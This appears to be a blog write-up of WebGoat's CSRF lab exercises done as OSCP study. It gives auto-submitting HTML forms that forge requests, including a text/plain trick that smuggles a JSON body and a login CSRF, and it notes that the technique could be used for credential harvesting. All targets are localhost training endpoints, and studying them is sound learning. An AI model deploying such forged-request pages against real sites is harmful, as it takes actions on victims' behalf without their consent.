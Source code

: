 Title: Road to OSCP: WebGoat A8: CSRF
Summary: Short notes about these tasks
Category: OSCP
Tags: websec, webgoat, csrf
Date: 2020-03-11 14:45
Status: published

#### Basic Get CSRF Exercise
To pass this one we should issue a POST request to `/WebGoat/csrf/basic-get-flag` in that way so it looks like have done from another host. To achieve this one could use intercepting proxy or browser devtools to modify request done from the browser and change `Referer` header's value to some random host. For example, to `example.com`. This solution is cheaty, proper 'exploit' is a page that looks like this:
```html
<html>
  <head></head>
  <body>
    <form name="f" 
          action="http://localhost:8080/WebGoat/csrf/basic-get-flag" 
          method="POST">
      <input type="hidden" name="csrf" value="false"/>
    </form>
    <script>document.f.submit();</script>
  </body>
</html>
```
It will show token after opening.

#### Post a review on someone else’s behalf
It's quite strange, but this could be solved in exact same way like the previous one. Is there some sort of a bug? Making a request with tampered `Referer` allow to pass this one. As earlier, correct solution is to craft a page like this:
```html
<html>
  <head></head>
  <body>
    <form name="f" 
          action="http://localhost:8080/WebGoat/csrf/review" 
          method="POST">
      <input type="hidden" name="reviewText" value="nailed"/>
      <input type="hidden" name="stars" value="5"/>
      <input type="hidden" 
             name="validateReq" 
             value="2aa14227b9a13d0bede0388a7fba9aa9"/>
    </form>
    <script>document.f.submit();</script>
  </body>
</html>
```
The only difference is that there are three inputs instead of one, and one contain a static value. 

#### CSRF and content-type
I stuck for a while here. We provided with a writeup on how to exploit some CSRF vulnerabilities where JSON, XML or whatever alike required. Main idea is that we could craft a form that sends some input data as plain text without applying url encoding. This trick is relatively simple:
```html
<html>
  <head></head>
  <body>
    <form name="sample" 
          action="http://localhost:8080/WebGoat/csrf/feedback/message" 
          method="POST" 
          ENCTYPE="text/plain">
      <input type="hidden" 
             name='{"name":"WebGoat","email":"webgoat@webgoat.org","subject":"service","content":"WebGoat is the best!!"}'
      />
    </form>
    <script>document.sample.submit();</script>
  </body>
</html>
```
Did you notice `ENCTYPE` form attribute? That's telling browser not to apply url encoding and effectively changes `Content-Type` header value to `text/plain` (at least in Firefox 68). The main caveat here is that browser appends equal sign at the end of the JSON because it expects some value passed in. This is where I stuck and even was thinking that this task is outdated, mostly because of this fragment of writeup:
> This results in a perfectly formatted Cross-Domain XML POST request.  The ENCTYPE avoids the body being encoded and he cleverly absorbs the unwanted “=” into the XML at a point where we need an “=” anyway.

Well, it does not "absorb the unwanted =" hence JSON rendered invalid and this will result in HTTP 500. I also found a [W3C standard](https://www.w3.org/TR/html52/sec-forms.html#plain-text-form-data) that instructs to do so and really was thinking that browsers fixed this behaviour some way. Hovewer, [Firefox 52.0.2](https://ftp.mozilla.org/pub/firefox/releases/52.0.2/) (dates back to when writeup was published) behaves exactly like Firefox 68, so this hypothesis does not seem to be right. So I've tried to use some `<!DOCTYPE>` declarations and `version` html attributes to tell browser that this doc is not HTML5 compliant. Still no luck. Dumb me! Solution was pretty simple. It was possible to provide phony JSON member that swallows unwanted equal sign. It was needed to change `input` declaration in that fashion:
```html
<input type="hidden" name='{"name":"WebGoat",...<SNIP>...,"phony:"' value='useless"}'/>
```
So resultant JSON will look like this:
```json
{
  "name": "WebGoat",
  "email": "webgoat@webgoat.org",
  "subject": "service",
  "content": "WebGoat is the best!!",
  "phony": "=useless"
}
```
Last member is ignored by the application and I've finally got a flag.

#### Login CSRF attack
If I grasp it right, to solve is simply to craft a document like this and open it locally or upload to webwolf and open from it:
```html
<html>
  <head></head>
  <body>
    <form name="sample" 
          action="http://localhost:8080/WebGoat/login" 
          method="POST">
      <input type="hidden" 
             name='username' 
             value='csrf-theuser'/>
      <input type="hidden" 
             name='password' 
             value='theuser'/>
    </form>
    <script>document.sample.submit();</script>
  </body>
</html>
```
It could be assumed that document may have any sophisticated form, for example exact copy of original login page thus allowing attacker to harvest credentials.
Also need to carefully read [paper](http://seclab.stanford.edu/websec/csrf/csrf.pdf) from the exercise.
